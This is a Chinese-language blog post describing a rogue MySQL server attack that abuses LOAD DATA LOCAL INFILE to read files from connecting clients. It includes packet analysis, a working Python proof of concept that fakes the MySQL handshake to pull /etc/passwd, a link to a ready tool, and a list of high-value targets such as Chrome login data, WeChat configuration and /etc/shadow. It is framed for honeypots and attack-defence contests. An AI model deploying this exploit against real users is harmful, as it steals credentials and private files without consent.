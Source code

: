 ```yaml
---
layout: post
title: RougeMysql任意读取用户文件
---
```




> **“** Mysql任意读取客户端文件已经早在17年就已经有人提起过，放在今天来看，可以用做蜜罐来获取攻击者的个人信息文件，也可以用在AWD中，比如可以获取攻击者QQ号，聊天记录，微信id，NTMLHash等，此文只做为引子介绍Rouge-Mysql攻击过程 **”**

[TOC]

## 01 数据包分析

在开始之前，我们首先要了解一个命令

 `load data local infile '/etc/passwd' into table users fields terminated by '\n';`

上面这句命令的意思解释一下就是 导入一个本地文件 `etc/passwd` 至 `user`表中，导入数据以` \n`换行符分割

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLYZuDXzickk8KXEQcLNsY6UnsYODNDVx5rAKgDlspPkObmZW3snIrWkQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

PS：

**Mysql >8.0** 版本的是默认禁止了 **local_infile** 功能 ，所以需要手动开启

`set global local_infile = 1;`

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLxS2SECwXYZcgO2TaDJnO05JdINfO2ibnGDFLicm6LtgAGAfOQHwSU0OQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

运行 `load data` 命令查看数据包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLpJqW2YiaE62qrhaxKNST0oRZywEQ0ErMKLohS6UO6xPl0icYHMibjW1Vg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLuhusjV6HKYvlbt6ZkwicHC9mdnicSG8ZRUDLe4ETlOno03uA6iaJLbKbQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

test文件内容

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLSicgvjABd4sLel08zr6OuBkWYvmOQx7jYQmoC9bCBcUdmE868k4uOQQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



上面就是完整的 `load data` 命令数据包

下面我们重点看一下 请求读取文件的这个数据包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLLPrNuFTDXCibduTZG7BsQbNvS6ticutyIZYa8fEpjHp8REMxaCCWdyww/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



- 红框内容 `1c`：文件绝对路径长度+1 （16进制）
- 蓝框内容 `00 00 01`：数据包序号
- 绿框内容 `fb`：数据包类型

可以看到我们只需要获取到 **文件名+绝对路径的长度+1** 再加上要读的文件绝对路径基本就可以实现读取任意文件，简单构造一下数据包：

(文件绝对路径长度+1) `00 00 01 fb` (文件绝对路径)

```python
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename 
```



## 02伪造 **Mysql**客户端

想要伪造一个Mysql客户端，我们先启动一个正常的 Mysql 服务，正常的过一遍连接到认证成功的流程。

Mysql 先是发送一个 `Greeting Proto` 的欢迎包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaL4rrLw1khXibgoaicu9B0NJKQlhBcECaGibZUBotYB8B0QdLxkKvRZuk4w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

紧接着就是认证流程数据包，Mysql 收到客户端发来的账号密码 进行验证并返回相应的数据包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaL50Z7qeHav4TUjtas84iapQCNANl4LqLHqlLVUy0yp3SY0Xtt7fsNW4w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)





Mysql 返回对应的认证包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLvIMGWSr84wkvVF6SQATknFl21jw3egERzpia3HvDWhQ5AqPNIemIzZQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)





至此就是 Mysql 的认证流程，知道了流程以后，我们就可以伪造 Mysql 客户端：

1. 监听 3306 端口，发送伪造的 Mysql 欢迎数据包
2. 有人连接则发送 Mysql 认证成功的数据包。
3. 伪造 Mysql 读取文件的数据包。
4. 根据数据包特征判断是否读取成功，成功则获取数据包内容。



## 03 Poc演示

Poc：

```python
import socket
import os
import sys

#usage poc.py 3306

port = int(sys.argv[1])
sv=socket.socket()
sv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sv.bind(("",port))
sv.listen(5)
print "Listen Begin in port "+ str(port)

filename = "/etc/passwd"conn, address = sv.accept()
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
conn.close()

if len(content) > 4:    
	print("[*] Read %s Successful!" % (filename))
```



本地运行 poc.py

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLKSLicvp16eiax2v1uIMthreXzGyvIr7qiaIvCk0sCRaMEehsyQDyfDtmw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

端口也正在监听中

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLMFQsNpictkGvnjmG5fJgE1OFjFTQdrpiaBlP8crv1DC2oibLdt4LAQ1OQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



尝试弱口令连接 Mysql

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLy7jppEWjDR5HL6zhhajpia6bapBdLT7ibiaWqszCtPpJvlaokHQfwMGTw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



读取文件成功，同时看一下数据包

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLDWYxwRDq4KeB5rVJmsqmxvJ7AwAgicAYwMEx42egjEh5cOvibonl6t4w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

可见 **/etc/passwd** 已经读取成功，所有的数据包也都伪造成功

下面要做的就是根据流量特征利用正则提取文件内容即可。



获取工具

git clone https://github.com/ev0A/Mysqlist

dicc.txt 是要读的文件

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLfa6uLSib42QYbZ5TQPKINkQ3ZMB5JfCtAHhauUY0GUsJO7TYibwCtVHA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

运行 exp_dicc.py端口 3306

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLDvzKM8qJDOUfPEPyz6LQTiaP5AqvaYwWe9SC0gHyGMzhXVbZaIBPQFA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

尝试在Windows主机连接伪造的 Mysql服务，密码随便写

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLDSr9zbdFNVLwbIsgG4nT7t1a1Mhkj1EYiauAOuhwJKRIUyh4YnwtkJw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



成功读取到用户文件

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLic65TEw9DusGlNrjCReIkccdBibTYuaOz3RNicSo9U0kia22KhSW41D23Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

查看读取的文件

![img](https://mmbiz.qpic.cn/mmbiz_png/Na4mNWibvPlxbxicy4CEfFnribXAqZcPViaLTMFfj6uWqiaCPK5V9NAoUibVZ0FYGsaYpIuHy0PZsE5bDlwdXMgOjcXA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



截止以上就是完整的伪造攻击流程。



## 04 思考🤔

既然可以任意读取文件，除了/etc/passwd 还有什么其他很有价值的文件呢？

**e.g:**

1. chrom login data 

   `'C:/Users/' + username + '/AppData/Local/Google/Chrome/User Data/Default/Login Data'`

2. NTLM Hash（Bettercap + responder）

3. 微信ID

   `C:\Users\username\Documents\WeChat Files\All Users\config\config.data`

4. `/etc/shadow` 等



**一些问题**

1. 添加判断，若客户端没有进行认证则不需要发送认证成功的数据包



Reference：

[3] https://github.com/ev0A/ArbitraryFileReadList

[4] https://github.com/ev0A/Mysqlist

[5] https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg

<img src="https://mmbiz.qpic.cn/mmbiz_gif/iczMSiaaDQ83NAPicb3wcqUUDubuibTM1beb4xgPepTjY0cxHxuyJlhscict0rthbr92gHHxXA6W5HibbVb39l7wmvyw/640?wx_fmt=gif&amp;tp=webp&amp;wxfrom=5&amp;wx_lazy=1" alt="img" style="zoom:80%;" />

